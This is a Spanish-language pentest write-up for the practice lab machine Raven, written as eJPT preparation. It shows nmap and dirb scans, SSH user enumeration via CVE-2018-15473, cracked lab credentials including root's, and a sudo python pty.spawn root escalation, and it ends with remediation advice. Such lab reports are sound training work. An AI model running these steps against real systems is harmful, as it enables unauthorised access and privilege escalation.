 # Informe de Pentesting - Raven

**Máquina:** Raven
**Autor:** Klauss Reyes Granados
**Certificación:** Preparación eJPT

---

## 🎯 Objetivo

Simular un ataque externo contra la máquina Raven, centrado en WordPress, SSH y escalado básico en entornos Linux.

---

## 🛰️ Recolección de Información

* Red: 192.1.1.0/24
* IP objetivo: 192.1.1.10

### Escaneo Nmap:

```bash
nmap -p- -sV -sS -Pn -n 192.1.1.10
```

---

## 🔎 Enumeración

### Puerto 80 - HTTP

* Página por defecto Apache.
* WordPress localizado con:

```bash
dirb http://192.1.1.10/wordpress
```

* Usuarios detectados:

  * michael
  * steven

---

## 💥 Explotación

### SSH Enumeration (CVE-2018-15473)

```bash
./ssh-username-enum.py -t 10 -w wordlist_raven raven.local
```

* Acceso exitoso:

  * michael\:michael
  * root\:R\@v3nSecurity
  * steven\:pink84

---

## ⬆️ Escalado de Privilegios

* Shell interactiva:

```bash
sudo python -c 'import pty; pty.spawn("/bin/bash")'
```

---

## 🚨 Vulnerabilidades Detectadas

| ID | Vulnerabilidad                             | Nivel   | Recomendación                                          |
| -- | ------------------------------------------ | ------- | ------------------------------------------------------ |
| 1  | Enumeración de usuarios SSH                | Alto    | Parchear versión de OpenSSH                            |
| 2  | Contraseñas débiles (acceso root directo)  | Crítico | Implementar políticas de seguridad robustas            |
| 3  | Uso de Python desde sudo sin restricciones | Alto    | Limitar comandos sudo accesibles por usuarios normales |

---

## ✅ Conclusiones

* Acceso completo obtenido a través de combinación de WordPress, enumeración de usuarios SSH y contraseñas débiles.
* Escalada básica mediante shell Python.

> Raven es una máquina sencilla y efectiva para practicar enumeración combinada entre web y SSH, escalada básica y configuración mínima de servicios inseguros.
